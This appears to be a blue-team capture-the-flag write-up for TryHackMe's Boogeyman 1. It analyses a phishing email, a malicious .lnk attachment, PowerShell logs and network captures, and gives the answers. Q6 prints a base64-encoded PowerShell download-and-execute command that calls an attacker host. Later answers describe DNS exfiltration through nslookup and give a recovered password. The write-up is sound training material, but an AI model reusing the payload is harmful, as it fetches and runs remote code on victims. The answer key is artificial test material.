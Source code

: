 ```yaml
---
author: Ricard Alcaraz Mancebo
title: Boogeyman 1 - TryHackMe
tags:
  - Cybersecurity
  - Blue Team
languages:
  - wireshark
image:
  url: https://tryhackme-images.s3.amazonaws.com/user-avatars/af7feb2c43a2c7d5f111b98ccbd15048.png
  alt: image
description: My notes solving Boogeyman 1 - TryHackMe
pubDate: 2025-09-10T20:22:00.000+02:00
---
```

## Scenario

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.

You are tasked to analyse and assess the impact of the compromise.

## Documents Provided

## Task 2

### Q1: What is the email address used to send the phishing email?

We need to analyze an email, with the name `dump.eml` I will open it using Thunderbird, for the analysis. To find the email adress that send the email we have to take a look at the header of the mail and find `From`.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    agriffin@bpakcaging.xyz
  </div>
</details>

### Q2: What is the email address of the victim?

Still loking at the header, we should search for `To` to find the victim that received the email.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    julianne.westcott@hotmail.com
  </div>
</details>

### Q3: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

Now we shoud check the message source to look for this information, you can see going to `View > Message Source` or use `Ctrl+U` in `Thunderbird`. There we have to search for the DKIM-Signature, and once there see if we can find a third-party mail relay. We can search the domain to see if its a possible mail relay if we dont know.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    elasticemail
  </div>
</details>

### Q4: What is the name of the file inside the encrypted attachment?

Now the task asks us to download the attachment, which is a .zip file, and then unzip it to obtain the file inside. The zip its encrypted but in the mail we have the password, once we do it we will obtain the name of the file.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Invoice_20230103.lnk
  </div>
</details>

### Q5: What is the password of the encrypted attachment?

We already know this information, we can find it in the email.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Invoice2023!
  </div>
</details>

### Q6: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

Here we need to use the tool lnkparser, we have an example in the task. Once we do it wi will find a field with the name `Command line arguments`, there we will find a command which last part is some encoded string, we just have to paste that for the answer we dont have to decode it.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
  </div>
</details>

## Task 3

### Q7: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

Now we will use the powershell log provided, parsing it with the jq tool. For this one I used this command:
`cat powershell.json | jq '.ScriptBlockText' | less`
I wanted to obtain information related to commands executed, then I had to scroll investigating the results, we will nnot need to scroll too much to find the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
cdn.bpakcaging.xyz,files.bpakcaging.xyz
  </div>
</details>

### Q8: What is the name of the enumeration tool downloaded by the attacker?

Using the same query I was searching for the download files, we can add a grep to try to find it easier. In this case its a tool that is open source.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    seatbelt
  </div>
</details>

### Q9: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

Again using the same query, but using the grep command to search for the sq3.exe, and we will find the relative path, in order to complete the path we should find the name of the user, for example you can try to search for the `Users` folder to see if there is an absolute path with the name of the user in it, and then we will have it.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite
  </div>
</details>


### Q10: What is the software that uses the file in Q3?

We have the answer in the previous question if we take a look at the obtained path.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Microsoft Sticky Notes
  </div>
</details>

### Q11: What is the name of the exfiltrated file?

For this one I didn't find a easier way than looking at the same query as before, just trying to find references to a document or file.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    protected_data.kdbx
  </div>
</details>

### Q12: What type of file uses the .kdbx file extension?

If we don't know the answer we can find it just by searching on the internet about this extension.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    KeePass
  </div>
</details>

### Q13: What is the encoding used during the exfiltration attempt of the sensitive file?

Here we have some help from the attacker that names a variable as the encoding, anyways we can try to understand some of the commands that executes to try to find the encoding.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    Hex
  </div>
</details>

### Q14: What is the tool used for exfiltration?

For this one I analized the next commands in order to see if there was something interesting, at some point we will find a code that is reading the file, and also as a hit we have a message of completition, once we find it we will see the tool used.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    nslookup
  </div>
</details>

### Q15: What software is used by the attacker to host its presumed file/payload server?

Now we have to move to `Wireshark`, there we have to take a look at the response of the server where the attacker downloads its files, we already know the two domains that the attacker uses, so checking the headers of the responses we will find the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    python
  </div>
</details>

### Q16: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

Filtering by http we will find a clear view if we didnt do it before, now we can try to identify which is the command for the output, from the previous task we already know some of the commands used and which ones outputs information, if we search for it we will find the answer.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    POST
  </div>
</details>

### Q17: What is the protocol used during the exfiltration activity?

For this one we just have to see where the HTTP packets ends and which ones starts massively.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
    DNS
  </div>
</details>

### Q18: What is the password of the exfiltrated file?

For this one I started looking at the final POST requests, we know that they contain the information that its gathering and it sending it to the C2 server.
Looking for the ones that have a longer lenght, I found out that the packet 40083 contains the output of the tool seatbelt that cointains different credentials using `CyberChef` we can decode it using the receipt `From Decimal`.
There we can find the file that contains the credentials we need, but its not there, so I searched for the following ones untils I found it.

<details>
  <summary>Click to reveal the answer</summary>
  <div>
%p9^3!lL^Mz47E2GaT^y
  </div>
</details>
